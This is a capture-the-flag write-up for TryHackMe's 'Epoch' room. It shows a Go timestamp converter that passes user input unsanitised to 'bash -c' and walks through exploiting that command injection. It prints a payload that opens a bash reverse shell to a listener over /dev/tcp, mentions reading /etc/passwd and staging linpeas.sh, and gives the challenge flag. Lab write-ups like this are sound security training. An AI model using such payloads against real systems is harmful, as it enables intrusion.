


# Epoch - TryHackMe Writeup

An online tool that helps you convert UNIX dates and timestamps. But wait, it might be doing more than just that!

[](https://tryhackme.com/room/epoch)
[](#)

**Key Vulnerabilities / Concepts:**

- Command Injection (`bash -c`)
- Input Validation Bypass
- Environment Variable Inspection

## Table of Contents

- [Introduction](#introduction)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Post-Exploitation](#post-exploitation)
- [Summary](#summary)

---

## Introduction

We start off by reading the info given for the challenge:

> Be honest, you have _always_ wanted an online tool that could help you convert UNIX dates and timestamps! Wait... it doesn't need to be online, you say? Are you telling me there is a command-line Linux program that can already do the same thing? Well, of course, we already knew that! Our website actually just passes your input right along to that command-line program!

**Access this challenge** by deploying the vulnerable machine and the TryHackMe AttackBox.
Navigate to the URL: `http://10.49.160.103`

Check out similar content on TryHackMe:

- [Command Injection](https://tryhackme.com/room/oscommandinjection)

---

## Enumeration

The description literally says `Our website actually just passes your input right along to that command-line program`, meaning we can try running commands to see if we can get anything.

Trial command testing:


Confirming basic command execution with `cat /etc/passwd` worked.

The system path:

> `/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin`

Checking the `challenge` user's home directory:

```bash
total 14M
drwxr-xr-x 1 root root 4.0K Mar  2  2022 .
drwxr-xr-x 1 root root 4.0K Mar  2  2022 ..
-rw-r--r-- 1 root root  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 root root 3.7K Feb 25  2020 .bashrc
-rw-r--r-- 1 root root  807 Feb 25  2020 .profile
-rw-rw-r-- 1 root root  236 Mar  2  2022 go.mod
-rw-rw-r-- 1 root root  52K Mar  2  2022 go.sum
-rwxr-xr-x 1 root root  14M Mar  2  2022 main
-rw-rw-r-- 1 root root 1.2K Mar  2  2022 main.go
drwxrwxr-x 1 root root 4.0K Mar  2  2022 views
```

Below is the source code for `/home/challenge/main.go`:

```go
package main

import (
	"fmt"
	"os/exec"

	"github.com/gofiber/fiber/v2"
	"github.com/gofiber/fiber/v2/middleware/logger"
	"github.com/gofiber/template/html"
)

func main() {
	// Initialize standard Go html template engine
	engine := html.New("./views", ".html")

	app := fiber.New(fiber.Config{
		Views: engine,
	})
	app.Use(logger.New())

	app.Get("/", func(c *fiber.Ctx) error {
		type Request struct {
			Epoch string `query:"epoch"`
		}
		r := new(Request)

		if err := c.QueryParser(r); err != nil {
			return c.SendStatus(fiber.StatusBadRequest)
		}

		if r.Epoch == "" {
			return c.Render("index", fiber.Map{
				"epoch":  r.Epoch,
				"output": "",
			})
		}

		cmdString := fmt.Sprintf("date -d @%s", r.Epoch)

		cmd := exec.Command("bash", "-c", cmdString)
		fmt.Printf("Running: %s", cmd)
		stdoutStderr, err := cmd.CombinedOutput()
		fmt.Printf("Result: %s", stdoutStderr)
		if err != nil {
			return c.Render("index", fiber.Map{
				"epoch":  r.Epoch,
				"output": err,
			})
		}
		return c.Render("index", fiber.Map{
			"epoch":  r.Epoch,
			"output": string(stdoutStderr),
		})
	})

	err := app.Listen(":3000")
	if err != nil {
		panic(err)
	}
}
```

---

## Exploitation

The script uses `bash -c` with no input validation, allowing for command injection. We can obtain a reverse shell using the following payload:

> `0; whoami;/bin/bash -i >& /dev/tcp/192.168.151.181/1337 0>&1`

Setting up a listener on the AttackBox:

```bash
└─$ nc -nvlp 1337
listening on [any] 1337 ...
connect to [192.168.151.181] from (UNKNOWN) [10.49.160.103] 47986
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
challenge@e7c1352e71ec:~$ whoami;uname
challenge
Linux
```

---

## Post-Exploitation

I checked for system vulnerabilities using `linpeas.sh`. I transferred the script using a simple Python HTTP server to the `/tmp` directory.

While running `linpeas.sh` to look for privilege escalation paths, I found the flag stored in the environment variables:



```bash
╔══════════╣ Checking all env variables in /proc/*/environ removing duplicates and filtering out useless env vars
FLAG=flag{7da6c7debd40bd611560c13d8149b647}
GOLANG_VERSION=1.15.7
HOME=/home/challenge
HOSTNAME=e7c1352e71ec
OLDPWD=/home/challenge
PWD=/home/challenge
PWD=/tmp
SHLVL=1
SHLVL=2
TERM=xterm-256color
_=./linpeas.sh
_=/bin/bash
_=/usr/bin/dd
_=/usr/bin/grep
```

**Final Flag**: `flag{7da6c7debd40bd611560c13d8149b647}`

---

## Summary

The **Epoch** challenge from TryHackMe is a straightforward example of why sanitizing user input is critical. By identifying a command injection vulnerability in the timestamp converter, we were able to break out of the intended functionality and gain a reverse shell. The discovery of the flag within environment variables during post-exploitation highlights the importance of checking all potential sources of sensitive information, even when a direct privilege escalation path isn't immediately obvious.

---

Happy Hacking! ❤️ 💻
